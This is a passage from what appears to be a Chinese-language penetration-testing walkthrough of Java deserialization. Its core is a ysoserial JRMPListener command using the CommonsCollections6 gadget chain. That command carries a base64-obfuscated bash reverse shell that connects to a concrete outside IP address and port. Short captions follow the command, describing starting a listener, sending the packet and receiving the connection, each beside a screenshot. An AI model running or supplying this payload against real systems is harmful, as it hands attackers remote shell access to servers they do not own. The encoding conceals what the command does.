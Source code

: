 ```plain
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 1098 CommonsCollections6 "bash -c {echo,YmFzaCAtaSAmPiAvZGV2L3RjcC8xMTkuMy4yMTUuMTk4Lzc3NzYgMD4mMQ==}|{base64,-d}|{bash,-i}"
```

同时开启监听

[![](assets/1706496403-5b41db318a18c5c8f5ac09094a6b3f2b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240127121120-20734eb0-bcca-1.png)

接下来发包

[![](assets/1706496403-8cbbf1009bcdf6783bf0708a14249d55.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240127121126-2389aaea-bcca-1.png)

此时收到响应

[![](assets/1706496403-0ff8d7cf218df5ed9fda45e2196feefe.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240127121141-2cb9578c-bcca-1.png)
